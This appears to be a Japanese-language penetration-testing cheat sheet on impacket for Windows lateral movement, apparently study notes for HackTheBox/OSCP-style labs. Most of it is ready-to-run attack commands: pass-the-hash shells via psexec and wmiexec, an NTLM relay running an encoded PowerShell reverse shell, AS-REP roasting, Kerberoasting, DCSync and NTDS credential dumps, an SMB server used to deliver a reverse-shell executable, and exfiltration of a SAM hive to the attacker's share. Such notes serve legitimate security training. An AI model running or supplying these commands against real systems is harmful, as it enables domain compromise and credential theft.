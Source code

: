 # impacket
psexecやsmbserverやwmiexec等、WindowsにおけるLateral Movementにつかえるものがいろいろ入っている。

## PsExec
impacketの中に入っている機能の一部。  
セッションの確立に使える。  
Lateral Movementに利用するには、以下の3つの条件を満たしている必要がある。  
1. psexecsvc.exeをC:\Windowsディレクトリに書き込める状態であること(リモートアクセス後に書き込み権限が必要ということ)
2. リモートホスト上にサービスを作成して起動できる状態であること
3. 要求されたプログラム/コマンドをpsexecsvc.exeの子プロセスとして実行できること

## コマンド集

1. PtHを使って管理者権限のシェルを取る。この時、NTLMハッシュの形式は**LMハッシュ:NTハッシュ**の形式になっている。  
NTLMハッシュのみを使用する場合は、LMハッシュ部分は0で埋めておく。
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

2. wmiexecを使ってPtWを行う
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
``

3. Net-NTLMv2 relay攻撃を行うため、中継元のWindows端末からdirなどでSMB接続をこの端末にさせ、コマンドを192.168.201.212という横展開先に送り付ける。  
これで、192.168.201.212上でPowerShellのリバースシェルコマンドを実行してシェルを取れる。-encの後ろはb64
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.201.212 -c "powershell -enc JABjAGwAaQBlAG..."
```

4. AS-REP Roastingの攻撃をADに対して実行する。ここで出力されたユーザ名はKerberos preauthenticationが無効になっていることを示し、AS-REQ Roasting攻撃に脆弱な可能性があることを示す。  
-dc-ip => DCのIPアドレスを指定  
-outputfile => AS-REPハッシュがhashcatの形式で保存される出力ファイルの名前を入力する。  
-request => TGTを要求する  
domain/user => 認証のターゲットにするユーザとドメイン名
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

4.1 ユーザ名をLdap経由で取得した後、匿名でそのユーザのAS-REPハッシュが取得できないかを調べる。  
ユーザ名は事前に列挙してからリストを作成してパスワードスプレーをする。
```
sudo impacket-GetNPUsers -usersfile ./usernames.txt -no-pass -dc-ip <targetIP> htb.local/ > asrep-roasting
```

5. Kerberoastingを実行するために、TGSを取得してhashcatで解析できる形でサービスチケットのハッシュを出力する。
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

6. DCSYNC攻撃をkaliからターゲットのwindowsに対して実行する。  
ここのユーザは、ドメイン上でDCSyncの権限をそもそも持っている必要があり、そのユーザの権限を借りてkaliからDCSyncの要求をしている点に注意。  
-just-dc-userの引数にターゲットのユーザ名daveを、dcsyncする際に要求を送る側には権限が必要なので、その権限を持つユーザをcorp.com/jeffadminとしてる。  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
もしくは
```
impacket-secretsdump -just-dc htb.local/hoge:password123@10.10.10.161
```

7. impacketを使ってNTLMハッシュでAdministratorユーザとしてセッションをとる。横展開で使える。
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.209.73
```

8. WindowsのシャドウコピーからダンプしたバックアップファイルをKaliのローカルで解析して資格情報を抽出する。これでNTLMハッシュやKerberosのキーが取得できる。
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

9. SMBサーバとして起動する。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```  
以下をKaliで行うと、ターゲットWindows上で//<kali_IP>/evil/hoge.exeとしてreverseshellを実行できる。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support evil $PWD
```

Kali側でサーバとして待ち受けてからWindwos側で以下みたいなコマンドをやるとファイルをコピーして送信できる。
```
copy C:\Users\THMBackup\sam.hive \\10.13.58.5\public\ \\10.13.58.5\public\ 
```

10. SAMやSYSTEMからダンプしたハッシュをもとに、kaliからDC等のマシンへpsexecでシェルをとれる。ターゲットがwin-rmを許可していないときとかはこっちで接続。
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc tom_admin@10.10.127.140
```

11. windows環境でSQLとかを見つけて認証情報も持っていれば、mssqlclientでアクセスできる。  
evil-winrmやsmbでアクセスできないときに便利。
```
impacket-mssqlclient oscp.exam/sql_svc@10.10.157.148 -windows-auth
```